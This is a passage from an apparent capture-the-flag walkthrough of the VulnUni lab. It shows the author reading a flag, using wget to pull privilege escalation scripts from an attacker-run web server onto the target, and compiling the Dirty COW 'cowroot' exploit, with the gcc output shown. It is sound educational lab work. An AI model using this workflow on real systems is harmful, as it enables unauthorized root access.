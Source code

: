 With a better shell, I did some manual navigating on the target and came across a flag in the vulnuni/home directory.

```text
www-data@vulnuni$ ls
ls
Desktop    Downloads  Pictures  Templates  examples.desktop
Documents  Music      Public    Videos     flag.txt
www-data@vulnuni:/home/vulnuniwww-data@vulnuni$ cat flag.txt
cat flag.txt
68fc668278d9b0d6c3b9dc100bee181e
```

Next, I opened up a webserver on my Kali linux machine to easily transfer some privilege escalation scripts to the target. I copied these scripts from my [redteam-apache-toolkit](https://github.com/tcbutler320/redteam-apache-toolkit) project to my webserver at /var/www/html . I used wget on the target to transfer the scripts into the /tmp folder. One of the privilege escalation/ enumeration scripts I ran was [BeRoot](https://github.com/AlessandroZ/BeRoot). The output showed that this target was vulnerable to the dirty cow linux kernel privilege escalation exploit.

![](https://i0.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-12-at-10.07.52-AM-1024x789.png?resize=768%2C592&ssl=1)

There are several dirty cow exploits available, each one uses a slightly different method of triggering the exploit. The GitHub [wiki pages](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) includes a list of POC’s. I tried a few of these however running the exploit caused the target VM to crash, a common [problem](https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675) experienced when using dirty cow. The best option I found was to use the SUID-based root exploit [cowroot](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679). I copied the POC to my machine, compiled it with gcc, and then transferred it to the target with wget.

```text
root@kali$ root@kali:~/Desktop# gcc -pthread cowroot.c -o cowroot 
cowroot.c: In function ‘procselfmemThread’:
cowroot.c:98:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
   98 |         lseek(f,map,SEEK_SET);
      |                 ^~~
      |                 |
      |                 void *
In file included from cowroot.c:27:
/usr/include/unistd.h:334:41: note: expected ‘__off_t’ {aka ‘long int’} but argument is of type ‘void *’
  334 | extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
      |                                 ~~~~~~~~^~~~~~~~
cowroot.c: In function ‘main’:
cowroot.c:135:5: warning: implicit declaration of function ‘asprintf’; did you mean ‘vsprintf’? [-Wimplicit-function-declaration]
  135 |     asprintf(&backup, “cp %s /tmp/bak”, suid_binary);
      |     ^~~~~~~~
      |     vsprintf
cowroot.c:139:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
  139 |     fstat(f,&st);
      |     ^~~~~
```
